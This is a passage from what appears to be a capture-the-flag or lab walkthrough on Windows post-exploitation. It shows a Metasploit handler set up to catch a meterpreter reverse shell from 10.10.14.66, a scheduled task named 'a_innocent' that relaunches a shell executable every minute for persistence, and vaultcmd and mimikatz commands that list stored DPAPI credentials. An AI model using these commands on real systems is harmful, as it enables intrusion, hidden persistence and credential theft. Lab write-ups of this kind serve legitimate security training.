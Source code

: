 whoami /priv


![image62](../resources/18a529b5ceb1424fa0aab5be11d00baf.png)

He has SeMachineAccountPrivilege set.

- Persistence in case we lose the session:

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.66; set lport 4449; exploit"
```

```bash
schtasks /create /sc minute /mo 1 /tn "a_innocent" /tr "C:\users\Public\shellppotts.exe" /ru "ppotts"
```
**<u>Crack DPAPI stored credentials:</u>**

- From cmd:

```bash
vaultcmd /listcreds:"Windows Credentials" /all

```

![image63](../resources/966ddefbdd424725a55ca149cb005829.png)

- From mimikatz

```bash
vault::list

```
